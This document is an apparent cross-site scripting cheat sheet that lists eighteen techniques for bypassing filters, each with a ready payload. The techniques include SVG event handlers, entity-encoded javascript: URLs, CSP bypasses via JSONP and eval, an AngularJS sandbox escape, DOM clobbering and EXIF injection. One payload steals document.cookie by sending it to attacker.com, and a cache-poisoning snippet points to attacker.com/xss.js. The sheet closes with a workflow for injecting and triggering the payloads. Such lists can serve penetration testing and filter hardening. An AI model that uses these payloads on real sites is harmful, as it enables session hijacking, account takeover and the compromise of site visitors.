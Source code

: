 Concise List
1. SVG Event Handlers
Description: Use <svg> elements with event handlers like onload or onmouseover, often allowed by sanitizers.
Payload:

html
Copy
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)">
  <circle cx="50" cy="50" r="40" fill="red"/>
</svg>
Run HTML
2. Colon Replacement
Description: Bypass javascript: filters using HTML entities (&colon;) or encoded tabs (&Tab;).
Payload:

html
Copy
<a href="java&Tab;script&colon;alert(1)">Click Me</a>
Run HTML
3. Alternative Event Triggers
Description: Use newer events like onauxclick (right-click) instead of blocked ones.
Payload:

html
Copy
<img src=x onauxclick="alert('Right-click me!')">
Run HTML
4. File Upload Exploits
Description: Inject XSS into file uploads (e.g., EXIF metadata in images or embedded JS in PDFs).
Example (EXIF XSS):

bash
Copy
exiftool -Comment='"><svg/onload=alert(1)>' image.jpg
Rendered Output:

html
Copy
<!-- App displays EXIF unsanitized -->
<img src="image.jpg" alt="Image Comment: "><svg/onload=alert(1)>">
Run HTML
5. DOM innerHTML Sinks
Description: Exploit unsanitized innerHTML assignments in JavaScript.
Payload:

html
Copy
<img src=x onerror="fetch('https://attacker.com?cookie='+document.cookie)">
Run HTML
6. Template Literal Injection
Description: Abuse JavaScript template strings in dynamic code.
Payload:

javascript
Copy
// Server code: var bio = `${userInput}`;
`${alert(document.domain)}`
7. CSP Bypass via JSONP
Description: Use unvalidated JSONP endpoints to execute scripts.
Payload:

html
Copy
<script src="/api/data?callback=alert(1);//"></script>
Run HTML
8. Unsafe-eval Exploitation
Description: Bypass CSP with setTimeout(eval, ...) or similar.
Payload:

html
Copy
<script>
  setTimeout(eval, 100, "alert('CSP Bypassed')");
</script>
Run HTML
9. Header/Log XSS
Description: Inject payloads into headers (e.g., User-Agent, X-Forwarded-For) stored in logs.
Payload:

bash
Copy
curl -H "User-Agent: <img src=x onerror=alert(1)>" https://example.com
10. AngularJS Sandbox Escape
Description: Abuse AngularJS sandbox to execute arbitrary JavaScript.
Payload:

html
Copy
<div ng-app>{{x.constructor.constructor('alert(1)')()}}</div>
Run HTML
11. Username Field XSS
Description: Store payloads in HTML-enabled username fields.
Payload:

html
Copy
<img src=x onerror="alert('Stored in username!')">
Run HTML
12. Cache Poisoning
Description: Manipulate CDN caches to serve malicious content.
Payload:

html
Copy
<script>
  fetch('/home', {headers: {'X-Forwarded-Host': 'attacker.com/xss.js'}});
</script>
Run HTML
13. UTF-7 Exploitation
Description: Use UTF-7 encoding if the charset is misconfigured.
Payload:

html
Copy
+ADw-script+AD4-alert(1)+ADw-/script+AD4-
Run HTML
14. Data URI Bypass
Description: Execute scripts via data: URIs in <iframe> or <object>.
Payload:

html
Copy
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
Run HTML
15. Mutation Bypass
Description: Use payloads that correct after WAF parsing.
Payload:

html
Copy
<div><svg/onload=alert(1)></div>  <!-- Fixes to <svg onload=... during parsing -->
Run HTML
16. Server-Client Parsing Gaps
Description: Exploit differences in HTML parsing between server and client.
Payload:

html
Copy
<!--</style></script><script>alert(1)</script>-->
Run HTML
17. DOM Clobbering
Description: Overwrite JavaScript variables using DOM elements.
Payload:

html
Copy
<form id="config"><input name="url" value="javascript:alert(1)">
<!-- Exploits: window.config.url -->
Run HTML
18. Dynamic JS Execution
Description: Inject into unsanitized eval() inputs.
Payload:

javascript
Copy
// Vulnerable code: eval("var userInput = '" + userData + "';");
';alert(1);//
Key Testing Workflow:
Identify Input Sinks: Profile fields, uploads, headers, logs.

Inject Payloads: Use context-specific vectors (HTML, JS, SVG, headers).

Trigger Execution: View stored data (e.g., profile, logs, images).

Bypass Filters: Use encoding, WAF quirks, or protocol tricks.
